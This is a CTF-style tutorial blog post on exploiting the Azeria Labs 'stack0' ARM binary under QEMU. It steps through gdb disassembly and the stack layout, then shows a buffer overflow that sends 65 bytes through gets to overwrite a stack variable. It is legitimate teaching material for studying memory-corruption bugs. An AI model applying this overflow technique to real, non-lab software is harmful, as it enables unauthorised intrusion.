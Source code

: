 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part I"
---
```


This is the first of a serie of posts about exploiting 32 bits Arm
binaries.

These [challenges](https://github.com/azeria-labs/ARM-challenges) were
[taken](https://azeria-labs.com/part-3-stack-overflow-challenges/)
from [Azeria Labs](https://azeria-labs.com).<!--more-->

## Setup

{% marginmarkdowncode
'
For the records:
```cpp
qemu-system-arm
  -M versatilepb
  -cpu arm1176
  -m 256
  -drive "file=2020-12-02-raspios-buster-armhf-lite.img,if=none,index=0,media=disk,format=raw,id=disk0"
  -device "virtio-blk-pci,drive=disk0,disable-modern=on,disable-legacy=off"
  -net "user,hostfwd=tcp::3022-:22,hostfwd=tcp::9999-:9999"
  -dtb versatile-pb-buster-5.4.51.dtb
  -kernel kernel-qemu-5.4.51-buster
  -append "root=/dev/vda2 panic=1"
  -no-reboot
  -net nic
  -nographic
```
'
'' %}

Let's [spin a Rasbian](/articles/2020/12/15/Qemulating-Rasbian-ARM.html)
first. Make your to forward a port for the `ssh` and another for the
`gdbserver` so we can connect to them from the host machine.

There are [7 binaries](https://github.com/azeria-labs/ARM-challenges)
compiled for ARM for 32 bits, not stripped and dynamically linked.

We will focus on `stack0` for now.

```shell
$ file stack0
stack0: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV),
dynamically linked, interpreter /lib/ld-linux-armhf.so.3,
for GNU/Linux 2.6.32,
BuildID[sha1]=1171fa6db1d5176af44d6d462427f8d244bd82c8,
not stripped
```

Spin the `gdbserver`:

```shell
pi@raspberrypi:~$ gdbserver :9999 stack0
Process /home/pi/stack0 created; pid = 410
Listening on port 9999
```

And now, from the host, connect your `gdb` to the server. In my case I
will use [pwndbg](https://github.com/pwndbg/pwndbg), an enhanced version
of `gdb`.

```shell
$ gdb-multiarch -q -x ~/scripts/pwndbg.gdbinit
pwndbg> target extended-remote :9999
Remote debugging using <...>
Reading /home/pi/stack0 from remote target...
```

In addition to the debugger, I will use an
[interactive assembler](https://github.com/bad-address/iasm) to play
with some Arm code that I may not understand but which I don't want to
run in the debugger
(see [my post about `iasm`](/articles/2021/01/09/Interactive-Assembler.html)).

## Stack initialization

The stack initialization of `main` is as follows:

```nasm
pwndbg> pdisass &main
 ► 0x1044c <main>       push   {fp, lr}
   0x10450 <main+4>     add    fp, sp, #4
   0x10454 <main+8>     sub    sp, sp, #0x50
   0x10458 <main+12>    str    r0, [fp, #-0x50]
   0x1045c <main+16>    str    r1, [fp, #-0x54]
   0x10460 <main+20>    mov    r3, #0
   0x10464 <main+24>    str    r3, [fp, #-8]
   0x10468 <main+28>    sub    r3, fp, #0x48
   0x1046c <main+32>    mov    r0, r3
   0x10470 <main+36>    bl     #gets@plt <gets@plt>
```

The `lr` and the `fp` are pushed in that order (0x8 bytes),
the `fp` is updated and points to the pushed `lr` (`add fp, sp, #4`)
and then 0x50 bytes are allocated (`sub sp, sp, #0x50`).

The arguments of `main`, registers `r0` and `r1`, are saved on *top* of
the stack (`str r0, [fp, #-0x50]`, `str r1, [fp, #-0x54]`).

And then the cookie is stored:

```nasm
   0x10460 <main+20>    mov    r3, #0
   0x10464 <main+24>    str    r3, [fp, #-8]
```

This is our target.

## Call to `gets`

In the `main` function a call to `gets` is done with a buffer
allocated in the stack:

```nasm
pwndbg> pdisass
   0x10460 <main+20>    mov    r3, #0
   0x10464 <main+24>    str    r3, [fp, #-8]
   0x10468 <main+28>    sub    r3, fp, #0x48
   0x1046c <main+32>    mov    r0, r3
 ► 0x10470 <main+36>    bl     #gets@plt <gets@plt>
        r0: 0xbefffb6c ◂— 0x0
        r1: 0xbefffd04 —▸ 0xbefffe14 ◂— '/home/pi/stack0'
        r2: 0xbefffd0c —▸ 0xbefffe24 ◂— 'SHELL=/bin/bash'
        r3: 0xbefffb6c ◂— 0x0
```

The registers before the call to `gets` were:

```
------  ----  ------  ---------  ------  ---------  ------  ------
    r0  1fb4  r1      eeee:eeee  r2      0          r3      1fb4
    r4  0     r5      0          r6      0          r7      0
    r8  0     r9/sb   0          r10     0          r11/fp  1ffc
r12/ip  0     r13/sp  1fa8       r14/lr  aaaa:aaaa  r15/pc  100:20
------  ----  ------  ---------  ------  ---------  ------  ------
```

And the manually-annotated stack was:

```python
100:20> ;! M[sp:]   # <-- from sp to the end of the mapped page
[
        --
        |   \xee\xee\xee\xee   == r1
        |   \xdd\xdd\xdd\xdd   == r0
  0x50  |   \x00\x00\x00\x00
        |   ... 16 more rows full of zeros ...
cookie -|-->\x00\x00\x00\x00
        --
   0x8  |   \xbb\xbb\xbb\xbb   == fp
 fp ----|-->\xaa\xaa\xaa\xaa   == lr
        --
] <-- base of stack
```

`r3` points *almost* to the begin of the bunch of zeros, just 4
bytes below.

We can verify this writing and inspecting the memory:

```python
100:20> ;! M[r3:] = b"AAAABBBBCCCC"
100:20> ;! M[sp:]
[
        \xee\xee\xee\xee
        \xdd\xdd\xdd\xdd
        \x00\x00\x00\x00    == these are still zeros
buf --> AAAA
        BBBB
        CCCC
        \x00\x00\x00\x00
        ...
]
```

Indeed, the destination buffer of `gets` has 0x48 - 0x8 bytes
(we subtract 4 bytes for the cookie and 4 bytes for the stored `fp`)

```python
100:20> ;! M[sp:]
[
        --
        |   \xee\xee\xee\xee   == r1
        |   \xdd\xdd\xdd\xdd   == r0
  0x50  |   \x00\x00\x00\x00
buf ----|-->AAAA
        |   BBBB
        |   CCCC
        |   ... 13 more rows full of zeros ...
cookie -|-->\x00\x00\x00\x00
        --
   0x8  |   \xbb\xbb\xbb\xbb   == fp
 fp ----|-->\xaa\xaa\xaa\xaa   == lr
        --
]
```

## The target

The program stores a cookie initialized to zero in the stack *before*
the call to `gets` and then it checks its value.

```nasm
   0x10460 <main+20>    mov    r3, #0
   0x10464 <main+24>    str    r3, [fp, #-8]
    ...
   0x10470 <main+36>    bl     #gets@plt <gets@plt>
   0x10474 <main+40>    ldr    r3, [fp, #-8]
   0x10478 <main+44>    cmp    r3, #0
```

If it is still zero jumps to a `puts` that prints `"Try again?"`.

But if an overflow occurs, the cookies will be non-zero and another
`puts` will executed.

This is the print that we are looking for:

```nasm
   0x10480 <main+52>    ldr    r0, [pc, #0x18]
 ► 0x10484 <main+56>    bl     #puts@plt <puts@plt>
```

The address of the string to print is stored in the code segment, 0x18
bytes below the program counter at 0x10480.

However 0x10480 + 0x18 == 0x10498 is not correct:

```nasm
pwndbg> x/4 0x10498
0x10498 <main+76>:  0xe24bd004  0xe8bd8800  0x0001051c  0x00010548
```

почему?

> "When using R15 as the base register you must remember it contains an
> address 8 bytes on from the address of the current instruction."
> <cite class="epigraph">Arm documentation</cite>

So it is 0x10498 + 0x8:

```nasm
pwndbg> x/4 0x104a0
0x104a0 <main+84>:  0x0001051c  0x00010548  0xe92d43f8  0xe1a07000

pwndbg> p (char*)0x0001051c
$21 = 0x1051c "you have changed the 'modified' variable"
```

## The exploit

Writing 0x40+1 bytes we will overflow the buffer overwriting the cookie
in the stack but without corrupting the stack further.

```shell
pi@raspberrypi:~$ echo -n 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' | ./stack0
you have changed the 'modified' variable
```
